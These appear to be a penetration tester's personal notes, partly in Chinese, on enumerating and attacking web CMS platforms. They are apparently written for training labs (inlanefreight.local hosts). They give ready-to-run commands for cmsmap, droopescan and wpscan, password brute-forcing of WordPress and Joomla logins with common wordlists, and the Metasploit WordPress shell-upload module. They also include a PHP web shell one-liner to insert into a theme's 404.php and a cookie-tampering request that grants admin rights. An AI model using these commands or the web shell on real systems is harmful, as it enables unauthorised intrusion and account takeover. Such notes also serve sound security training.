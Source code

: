 Step 1: 看源码/开洞察，看注释。
Step 2: 查看页面地图结构 --> robots.txt,sitemap.xml,CHANGELOG,.git,README,admin,login
Step 3: Add the server's Domain Name to the /etc/hosts if it has! (especially UMBRACO CMS！)
- virtual hosting (in apache) or in IIS (it's called name binding if I remember correctly)
Step 4: Wappalyzer, `Whatweb -v -a`
* 注意部分网站应用程序有利用漏洞(票据系统/除CMS外的系统)
	`/robots.txt /sitemap.xml /Changelog /.git /README /README.txt`
	`/.well-known/ /crossdomain.xml /clientaccesspolicy.xml`
# Prep Site
[[Brute Force & Default Password]
[URL Encode/Decode](https://meyerweb.com/eric/tools/dencoder/)
[HackTrick - Web - Methodology && Common technologies](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web)
- [TomCat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)
# Specialised Scan
Web Tech Trick: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web#web-tech-tricks
## CMSmap
> Plugin, Users, themes
```bash
cmsmap #查找CMS的脆弱点，(W)ordpress, (J)oomla or (D)rupal
cmsmap.py https://example.com
cmsmap.py https://example.com -f W -F --noedb -d
cmsmap.py https://example.com -i targets.txt -o output.txt
cmsmap.py https://example.com -u admin -p passwords.txt
cmsmap.py -k hashes.txt -w passwords.txt
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
```
## droopescan
For Jenkins - Groovy reverse-shell
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla #Version

droopescan scan drupal -u http://site
 #Joomscan
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
#https://github.com/ajnik/joomla-bruteforce 
```
## WordPress
工具双管齐下，不容易错失信息
### Curl
```bash
curl -s http://blog.inlanefreight.local | grep WordPress #Version
curl -s http://blog.inlanefreight.local/?p=1 | grep plugins
 # HackTrick : wordpress ...
use exploit/unix/webapp/wp_admin_shell_upload
```
### Wpscan
api token: https://wpscan.com/profile/
```bash
wpscan --url <url> --enumerate p  --plugins-detection aggressive  --api-token <wpscan website get>
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt 
#Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"

# Login Burte Force
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
### Abuse Theme
```php
# 进入到WP后台在配置主题页面，选择一个未激活的主题中不常用页面的(e.g. 404.php)
system($_GET[0]);
```

Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster
# plain text cookie
e.g.
```http	
Set-Cookies: admin=false; logged_in=false
```

```bash
$ curl http://{$target_DOMAIN} -H "Cookie: admin=true; logged_in=false"
```
[CrackStation-破解HASH的字典](https://crackstation.net/)
